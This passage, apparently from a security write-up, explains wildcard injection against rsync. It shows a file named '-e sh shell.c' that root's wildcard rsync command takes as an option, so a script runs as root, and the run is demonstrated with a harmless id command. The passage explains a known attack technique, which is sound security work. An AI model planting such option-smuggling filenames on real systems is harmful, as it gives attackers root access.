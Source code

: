 ```none
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
-rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt
```

There were two files owned by user 'leon', as listed below.

```none
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
```

After 'rsync' execution, new file shell\_output.txt whose owner is root is created in same directory.

```none
-rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt
```

If we check its content, following data is found.

```none
[root@defensecode public]# cat shell_output.txt
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Trick is that because of the '\*.c' wildcard, 'rsync' got '-e sh shell.c' option on command line, and shell.c will be executed upon'rsync' start. Content of shell.c is presented below.

```none
[root@defensecode public]# cat shell.c
/usr/bin/id > shell_output.txt
```
